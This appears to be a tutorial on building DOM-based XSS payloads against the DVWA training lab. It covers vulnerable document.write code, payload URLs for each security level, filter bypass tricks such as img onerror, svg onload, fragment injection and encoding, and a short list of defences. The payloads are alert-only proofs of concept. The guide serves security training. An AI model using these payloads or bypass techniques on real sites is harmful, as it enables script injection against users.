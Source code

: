 
# 🧠 Understanding DOM-Based XSS Payload Construction

This guide explains how to analyze, deconstruct, and build DOM-based XSS (Cross-Site Scripting) payloads step-by-step using examples from DVWA.

---

## 📜 Vulnerable Code Context

From the DVWA DOM XSS page, we analyze this JavaScript:

```html
<script>
    if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
        document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    }
</script>
```

🔍 **This script does the following:**
- Reads the `default=` parameter from the URL.
- Writes it directly into the page using `document.write()` — without validation or sanitization.

---

## 🧪 Low Security – Payload

```
http://localhost/vulnerabilities/xss_d/?default=');<script>alert('hacked!');</script>//
```

### 🔎 Explanation
- `');` closes the `value` attribute.
- `<script>alert(...)</script>` injects JavaScript.
- `//` comments out remaining code.

🔧 **Resulting HTML:**
```html
<option value=''>
<script>alert('hacked!');</script>
</option>
```

✅ JavaScript executes successfully.

---

## 🛡️ Medium Security – Filter Bypass

```php
if (stripos ($default, "<script") !== false) {
    header("location: ?default=English");
}
```

### 🔎 Explanation
This code blocks requests containing `<script>`.

### ✅ Payload to bypass:
```
http://localhost/vulnerabilities/xss_d/?default=English</option></select><img src='x' onerror='alert(1)'>
```

🔧 **Trick**:
- Closes `<option>` and `<select>` cleanly.
- Injects `<img>` tag with an `onerror` handler.

✅ XSS triggers via `onerror`.

---

## 🔒 High Security – DOM-Based Whitelist Bypass

### 📌 Overview
In High Security mode, DVWA performs server-side filtering using a whitelist:

```php
switch ($_GET['default']) {
    case "French":
    case "English":
    case "German":
    case "Spanish":
        break;
    default:
        header ("location: ?default=English");
}
```

However, the **real vulnerability is client-side**, where JavaScript processes input from the URL — including the fragment (`#`) part.

### 🔎 JavaScript Vulnerability
```js
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
}
```

### 🔍 Why It’s Vulnerable
| 🔒 Vulnerability | ❌ Problem Description |
|------------------|------------------------|
| DOM-Based XSS | Input is inserted directly into HTML without sanitization |
| Server-Side Whitelist Ineffective | The browser executes JavaScript regardless of the PHP filter |
| Fragment Injection | Payloads after `#` are never sent to server, but parsed by JS |

---

### 🧪 Bypass Payload

```
http://localhost/vulnerabilities/xss_d/?default=English#<script>alert('hacked')</script>
```

🧩 Breakdown:
- PHP sees `default=English` — ✅ valid input.
- Browser sees full string (including `#...`).
- JavaScript inserts full string into DOM.

🔧 **Injected JavaScript:**
```js
var lang = 'English#<script>alert("hacked")</script>'
```

🔧 **HTML Rendered:**
```html
<option value='English#<script>alert("hacked")</script>'>
```

✅ Script is executed by browser.

---

## 🧰 How to Build DOM XSS Payloads – Step by Step

| Step | Action | Reason |
|------|--------|--------|
| 1️⃣ | Inspect the vulnerable JavaScript | Understand how it uses input |
| 2️⃣ | Identify the context (e.g., attribute, innerHTML) | Tailor the payload to fit that context |
| 3️⃣ | Break out of the current context | Use `'>`, `</option>`, etc. |
| 4️⃣ | Inject JavaScript | Use `<script>`, or event handlers like `onerror` |
| 5️⃣ | Neutralize rest of the code | Use comments (`//`) or clean closing tags |

---

## 🔐 Common XSS Filter Bypass Techniques

| Filter Type | Example Payload |
|-------------|------------------|
| Script tag blocked | `<img src=x onerror=alert(1)>` |
| Event handler injection | `<svg/onload=alert(1)>` |
| Attribute Injection | `' onfocus=alert(1) autofocus>` |
| Fragment injection | `#<script>alert(1)</script>` |
| Case-insensitive bypass | `<ScRipT>alert(1)</sCript>` |
| Double encoding | `%3Cscript%3Ealert(1)%3C/script%3E` |

---

## ✅ Final Notes

- DOM XSS arises from unsafe handling of `document.location`, `document.URL`, or user-controlled JS values.
- Always analyze **where** and **how** input is inserted.
- Be creative — use different HTML contexts, encodings, or events.

🔍 Protect against DOM XSS using:
- `textContent` instead of `innerHTML`
- Proper encoding libraries
- CSP (Content Security Policy)
- Avoiding use of `document.write()`

Stay sharp — DOM XSS lives in the shadows of the browser.

